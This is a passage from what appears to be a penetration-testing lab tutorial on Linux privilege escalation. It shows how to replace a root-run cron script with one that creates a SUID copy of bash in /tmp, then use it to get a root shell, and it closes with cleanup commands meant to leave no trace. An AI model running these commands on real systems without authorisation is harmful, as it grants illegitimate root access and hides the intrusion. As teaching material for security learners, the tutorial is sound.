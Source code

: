 Moving on, let’s quickly check what the script is doing.

```shell
cat /opt/scripts/test-connect.sh
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-436.png)

Alright, this is just a simple script that uses an if/else statement to check if the network is up or down.

## Setting up the Exploit and Getting a Root Shell

Regardless of what it does – we cannot edit it, so we will move the original script to a directory we can write to, then replace this script with a malicious version.

```shell
mv /opt/scripts/test-connect.sh /dev/shm
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-439.png)

Interestingly, once the file has been moved devops becomes the file owner. This means that we could edit the script after moving it, and then move it back to the scripts folder.

Instead, we will continue with our original plan and replace the current script with a malicious one.

> Why was the file NOT owned by root when it was moved? – ACLs prevented the file from being owned by root when it was moved by devops; therefor, the system was forced to make devops the owner of the “new” file. The easiest way to think of it is that devops cannot assign root as a file owner; however, root can assign any user as a file owner.

Since we have already used cron jobs to get root 4 different ways, we will just keep it simple this time and make another SUID bash binary in the /tmp folder.

```shell
echo '#!/bin/bash' > /opt/scripts/test-connect.sh
echo "" >> /opt/scripts/test-connect.sh
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' >> test-connect.sh
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-440.png)

And in less than a minute, a new SUID bash binary appears in the /tmp directory!

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-394.png)

Since the bash binary is owned by root, we can use it to easily drop into a root shell.

```shell
/tmp/bash -p
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-395.png)

Don’t forget to clean up the script and restore it from backup and make root the owner again!

```shell
mv /dev/shm/test-connect.sh /opt/scripts/
chown root:root /opt/scripts/test-connect.sh
```

![](https://juggernaut-sec.com/wp-content/uploads/2023/03/image-441.png)

Perfect! Everything is now restored to how it was like we were never here!